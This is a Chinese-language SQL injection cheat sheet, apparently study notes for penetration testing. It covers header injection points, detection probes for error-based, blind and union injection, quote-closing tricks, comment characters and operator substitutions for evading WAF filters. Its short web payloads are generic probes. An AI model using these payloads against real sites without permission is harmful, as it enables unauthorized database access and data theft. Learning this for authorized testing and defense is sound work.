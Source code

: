 很明显的这个接口，页面url，输入框的传参参数是进入了数据库的。或http数据包中数据参数是进入了数据库的。
```
**Header注入**
User Agent 中文名为用户代理，简称 UA，它是一个特殊字符串头，使得服务器能够识别 客户使用的操作系统及版本、CPU 类型、浏览器及版本、浏览器渲染引擎、浏览器语言、 浏览器插件等。
有些网站为了统计来访为手机还是PC，会存入数据库。
**Cookie注入**
一般是因为后台程序，读取了cookie中的数据，并带入到数据库中执行了
**X-Forwarded-For**
是客户端通过HTTP代理或者负载均衡器连接到web服务端获取源IP地址的一个标准（通常一些网站的防注入功能会记录请求端真实IP地址并写入数据库或某文件，通过修改XXF 头可以实现伪造IP）
**Referer**
当浏览器向web服务器发送请求的时候，一般会带上 Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用 于处理
Host
有些服务器无论请求什么Host，都有一个默认的Host站点响应时。
```

## **测试是否有注入**
检测报错注入:
```
加\ 转义'
?id=1\    有原生报错回显

加'
?id=1' 有原生报错回显，则存在报错注入，且为 ' 闭合 或 ')闭合。

加"
?id=1"  有原生报错回显，且为 " 闭合 或 ")闭合。

?id = 1 and 1=2 有原生报错回显。
```

检测布尔盲注：
```
?id = 1 and 1=2  报错不显示正常数据，或无原生报错回显。


?id=1' and 1=1 --+  不报错
?id=1" and 1=1 #  不报错
```
实际中少用1=1，防止waf：<https://xz.aliyun.com/t/8020?time__1311=n4%2BxuDgDBAeDqrgDlroGkzD8CDkYeDce4YupD&alichlgref=https%3A%2F%2Fcn.bing.com%2F>

检测时间盲注：
```
?id=1 and sleep(3) 三秒才返回。
```

检测联合注入：
有报错注入，有布尔注入，也可能有联合注入。
有回显，寻找注入点，判断闭合方式，判断列数，进行函数执行回显。
测试当前表的字段数
```
?id =1 ' order by 5 --+  //若到5报错，则此表有4个字段

?id = -1 ' union select 1,2,3,4 --+
?id = -1 union select 1,2,3,4
前报错，后替换回显1,2,3,4
```

^
## **闭合处理**
闭合的原理：
在网站当中存在用户可控制参数，又没有对这个进行严格过滤，导致用户可以用过同样的符号去结束前面的字符内容，执行后面的语句

常见的闭合方式：
* 数字类型(无闭合)
* 单引号 ’
* 双引号 ”
* 括号 ）
* 组合方式 ‘)  ")   '))   "))

闭合后需要用到的注释符去掉后面：
```
--+ --空格

'#'  单行注释,中间用 %23

多行还是用and 'a' = 'a

语句尾部不要也可以这样闭合
;%00
```




^
## **注入类型判断**
### 联合查询
```
页面有回显，可以通过联合查询获取数据
常见于select。

select * from sql_insertion where id =1  order by view_time limit 0,1;
A  B  from sql_insertion where id =C  order by D limit 0,E;
A B可以手工注入
C可以常规注入
D难注入
E难注入
```

### 报错注入
```
页面无直接回显，但是能回显报错信息，可以通过报错函数获取回显数据。
常见于select,insert,delete,update。
```

### 布尔盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过布尔判断，分别sql语句有没有成功，从对数据库进行猜测
常见于select。
```
### 时间盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过页面刷新时间，判断sql语句有没有成功，从对数据库进行猜测
常见于select,insert,delete,update。
```

^
## **过滤和逻辑运算符选择**
```
id = 1 and 1
id = 1 && 1

id = 1 or 1
id = 1 || 1

id=1||0 有1为1
id=1||1 无0为1

id=1^1
id=1^1^1
id=1|1
id=1&1
```